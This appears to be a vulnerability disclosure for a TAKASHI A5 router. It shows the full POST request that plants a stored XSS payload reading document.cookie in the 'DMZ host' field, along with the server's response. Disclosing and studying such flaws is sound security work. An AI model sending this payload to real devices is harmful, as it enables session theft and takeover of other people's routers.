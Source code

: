 #TAKASHI-Wireless-Instant-Router-And-Repeater<br />
`Software version 	    V5.07.38_AAL03`<br />
`Hardware version 	    V3.0`<br />
`Model no.A5`<br />


The vulnerability lies within sanitizing user input.<br />
when a request to sent to the web application.<br />

Specifically the 'DMZ host' IP address.<br />

On the webserver the request is filtered by a javascript function that can be bypassed easily by sending the request directly leading to a XSS <br />injection. The injection is stored on the web application and is refected to any user that visits the 'DMZ Host' section of the web application.<br />

This is the request that leads to cross site scripting. the closing script<br />
closes the previous running script and we can start our own immediatly after.<br />

POST /goform/VirSerDMZ HTTP/1.1<br />
Host: `192.168.2.1`<br />
Content-Length: 56<br />
Cache-Control: max-age=0<br />
Origin: `http://192.168.2.1`<br />
DNT: 1<br />
Upgrade-Insecure-Requests: 1<br />
Content-Type: application/x-www-form-urlencoded<br />
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7<br />
Referer: http://192.168.2.1/nat_dmz.asp<br />
Accept-Encoding: gzip, deflate, br<br />
Accept-Language: en-US,en;q=0.9,nl;q=0.8<br />
Cookie: admin:language=LOL<br />
Connection: keep-alive<br />
<br />
GO=nat_dmz.asp&dmzip=</script><script>alert(document.cookie);</script><br />
<br />

This ouputs:<br />
HTTP/1.0 302 Redirect<br />
Server: GoAhead-Webs<br />
Date: Thu Jan 01 00:53:41 1970<br />
Pragma: no-cache<br />
Cache-Control: no-cache<br />
Content-Type: text/html<br />
Location: `http://192.168.2.1`/nat_dmz.asp<br />

<html><br /><head><br /></head><br /><body><br />
		This document has moved to a new `<a href="http://192.168.2.1/nat_dmz.asp">location</a>.<br />`
		Please update your documents to reflect the new location.<br />
		</body></html><br />
<br />
JNow once that request is made, a persistant script is left on the server that will exicute any time the page is visited.

